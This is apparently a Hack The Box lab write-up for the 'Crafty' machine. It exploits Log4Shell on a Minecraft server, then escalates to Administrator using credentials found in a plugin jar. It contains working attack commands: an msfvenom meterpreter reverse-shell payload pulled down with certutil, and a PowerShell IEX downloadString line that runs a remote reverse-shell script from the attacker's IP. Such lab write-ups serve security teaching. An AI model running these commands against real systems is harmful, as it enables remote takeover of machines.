

# Crafty Writeup
<figure></figure>

Nmap Scan:
```
┌──(kali㉿kali)-[~/Desktop/htb/crafty]
└─$ nmap -sC -sV -vv 10.10.11.249  
PORT      STATE SERVICE   REASON  VERSION
80/tcp    open  http      syn-ack Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Crafty - Official Website
25565/tcp open  minecraft syn-ack Minecraft 1.16.5 (Protocol: 127, Message: Crafty Server, Users: 1/100)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Adding `crafty.htb` to `/etc/hosts`.

On loadaing the website we can see the homepage.

<figure></figure>

## User Flag

With a little bit of research. I found a log4j vulnerability to be present for minecraft on port 25565.

I found the 
[CVE-2021-44228](https://github.com/kozmer/log4j-shell-poc.git)

I cloned the repository and made a few changes to the poc.py.

<figure></figure>

I changed the `String cmd` to `'cmd.exe'` since we are dealing with a Windows Machine.

I got the listener up and running.

<figure></figure>

I also cloned another Minecraft-Client library called `pyCraft`.
[pyCraft](https://github.com/ammaraskar/pyCraft)

I started another listener to catch the reverse shell.

```
rlwrap nc -lvnp 4444
```
<figure></figure>

And I finally caught the shell and got the user flag.

<figure></figure>

## Root Flag

I get a stable shell using `msfvenom`.

```
# Kali Machine
$ sudo msfvenom -p windows/x64/meterpreter/reverse_tcp -o shell.exe -f exe LHOST=10.10.16.6 LPORT=3333

# Windows Machine
$ certutil -urlcache -f http://10.10.16.6:123/shell.exe shell.exe
```

Now, I download the `playercounter-1.0-SNAPSHOT.jar` and analyze the file to find credentials.

<figure></figure>

Running the following commands with the variables would work to get access.

I saved a normal powershell reverse shell script as `rev.ps1`.
<figure></figure>

And Ran it in the target machine to get access.

```
$SecPass = ConvertTo-SecureString 's67u84zKq8IXw' -AsPlainText -Force

$cred = New-Object System.Management.Automation.PSCredential('Administrator',$SecPass)

Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.WebClient).downloadString('http://10.10.16.6:9999/rev.ps1')" -Credential $cred
```

<figure></figure>

And the machine is rooted.

Thank you!!! Happy Hacking :D